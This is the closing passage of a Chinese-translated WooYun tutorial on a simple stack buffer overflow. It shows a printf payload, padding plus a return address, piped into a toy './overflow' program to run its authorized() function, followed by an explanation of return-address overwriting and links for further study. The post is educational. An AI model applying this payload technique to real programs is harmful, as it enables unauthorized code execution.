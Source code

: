 ```
cris@spectrumit-cris ~/D/p/overflow> printf "aaaaaaaaaaaaaaaaaaaaaaa\x00\xa0\x06\x40\x00\x00\x00\x00\x00" |
 ./overflow
You rascal you!
fish: Process 9299, “./overflow” from job 1, “printf "aaaaaaaaaaaaaaaaaaaaaaa\x00\xa0\x06\x40\x00\x00\x00
\x00\x00" | ./overflow” terminated by signal SIGSEGV (Address boundary error)

```

我们的程序会有段错误，因为栈上指向`__libc_start_main`的返回地址没有对齐（main 开头的 push rbp 一直没 pop），但是我们还是可以看到它打印了“You rascal you！”，所以我们可以知道`authorized()`函数事实上已经执行成功了。

## 0x02 总结

* * *

这就是啦！一个简单的缓冲区溢出，如果你知道这是怎么发生的话，你会觉得这个太牛逼太好玩了，只要栈上数据仍然可执行，你就可以把代码扔到栈上的一个缓冲区里面，比如这样，然后把返回地址指向缓冲区，这样就能用该进程的权限执行你自个儿的代码了。这已经不可能了（注：作者估计是指一些较新的系统已经禁止栈上数据的执行权限了），但是还是可以修改函数的返回地址，这还是同样给力。

一些其他给想要学习的人的连接（英文，作者给的）：
[`insecure.org/stf/smashstack.html`](http://insecure.org/stf/smashstack.html)
[`www.eecis.udel.edu/~bmiller/cis459/2007s/readings/buff-overflow.html`](http://www.eecis.udel.edu/~bmiller/cis459/2007s/readings/buff-overflow.html) [`developer.apple.com/library/mac/#documentation/security/conceptual/SecureCodingGuide/Articles/BufferOverflows.html`](https://developer.apple.com/library/mac/#documentation/security/conceptual/SecureCodingGuide/Articles/BufferOverflows.html)
[`www.ibm.com/developerworks/library/l-sp4/index.html`](http://www.ibm.com/developerworks/library/l-sp4/index.html)

版权声明：未经授权禁止转载 [blast](http://drops.wooyun.org/author/blast "由 blast 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Easy RM to MP3 Converter(2.7.3.700)栈溢出漏洞调试笔记](http://drops.wooyun.org/papers/3178)
*   [逆向基础（一）](http://drops.wooyun.org/tips/1517)
*   [CVE2014-6287 分析报告](http://drops.wooyun.org/papers/3091)
*   [MS15-002 telnet 服务缓冲区溢出漏洞分析与 POC 构造](http://drops.wooyun.org/papers/4621)
*   [CVE-2014-4113 漏洞利用过程分析](http://drops.wooyun.org/papers/3331)
*   [64 位 Linux 下的栈溢出](http://drops.wooyun.org/tips/2288)
